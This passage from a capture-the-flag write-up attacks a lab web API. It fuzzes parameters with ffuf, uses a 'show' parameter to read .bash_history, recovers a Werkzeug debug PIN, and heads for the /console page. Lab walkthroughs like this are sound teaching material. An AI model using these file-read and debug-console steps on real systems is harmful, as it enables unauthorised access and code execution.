 
```
"http://10.10.254.203:5000/api/v1/resources/books?id=.bash_history"
```

Since already know we need to read `bash_history`, we can use it to fuzz, now, let's fuzz changing the `id` character to check if there's any parameter that may give us the valid response:

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://10.10.254.203:5000/api/v1/resources/books?FUZZ=.bash_history" -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.254.203:5000/api/v1/resources/books?FUZZ=.bash_history
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

show                    [Status: 200, Size: 116, Words: 5, Lines: 8, Duration: 183ms]
author                  [Status: 200, Size: 3, Words: 1, Lines: 2, Duration: 190ms]
id                      [Status: 200, Size: 3, Words: 1, Lines: 2, Duration: 191ms]
published               [Status: 200, Size: 3, Words: 1, Lines: 2, Duration: 184ms]
```


As seen, the `show` parameter has got a size of `116`, let's check it out:

```json
curl "http://10.10.254.203:5000/api/v1/resources/books?show=.bash_history"
cd /home/sid
whoami
export WERKZEUG_DEBUG_PIN=123-321-135
echo $WERKZEUG_DEBUG_PIN
python3 /home/sid/api.py
ls
exit
```

It works and we got the pin, let's go into `/console` then:

![](Pasted image 20250509115547.png)
